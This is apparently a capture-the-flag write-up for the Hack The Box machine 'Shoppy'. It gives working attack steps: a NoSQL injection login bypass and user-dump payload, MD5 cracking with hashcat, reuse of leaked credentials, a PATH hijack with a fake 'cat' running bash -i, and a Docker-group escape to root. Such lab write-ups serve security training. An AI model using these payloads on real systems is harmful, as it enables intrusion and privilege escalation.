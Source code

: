 ```yaml
---

title: Shoppy
date: 2022-12-31 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [nosql, mongodb, hashcat, john, ghidra, PATH, docket, DNS]
---
```


Initial nmap scans gve us a few ports and an http server on 80 that needs to be setup in hosts to access. http://shoppy.htb

Running `feroxbuster` we find a `/login` on port 80

Check for subdomains `wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://shoppy.htb' -H "Host: FUZZ.shoppy.htb" --hc 301`

we find `mattermost` add it to the /etc/hosts

We can bypass the login screen using nosql injection

- `user=' || 1==1%00&pass=' || 1==1%00`

Then searching for users we can use the following to dump all users

- `http://shoppy.htb/admin/search-users?username=admin'||'1==1`

```
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
1	
_id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"
```

- `hashcat -m 0 shoppy.htb.hashes.josh /usr/share/wordlists/rockyou.txt`

and we get joshs pass: 6ebcea65320589ca4f2f1ce039975995:remembermethisway

We can login the the mattermost subdomain with their credentials.

Checking the recent mentions we have a note from jaeger

```
or the deploy machine, you can create an account with these creds :
username: jaeger
password: Sh0ppyBest@pp!
And deploy on it. 
```

also 

```
josh
1:25 AM

Oh I forgot to tell you, that we're going to use docker for the deployment, so I will add it to the first deploy 
```

We can login via ssh with jaeger creds. and get user.txt flag

Checking sudo -l we can run the following command `sudo -u deploy /home/deploy/password-manager` which 

basically looks for creds then when proper creds inserted executes `cat /home/deploy/creds.txt`. now this isnt using the full path so we should be ablt to use PATH escalation. Create a cat file in /tmp with bash -i then add /tmp to PATH. export PATH=/tmp:$PATH then using ghidra we find the password for the manager is Sample. Running the file we get deploy creds.


```
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

su to deply

checkng id and as expected we are inside a docker container and since we now have a user that belongs to the docker group we can escape. https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

- `find / -name docker.sock 2>/dev/null`
- `docker run -it -v /:/host/ alpine chroot /host/ bash`

and we're root
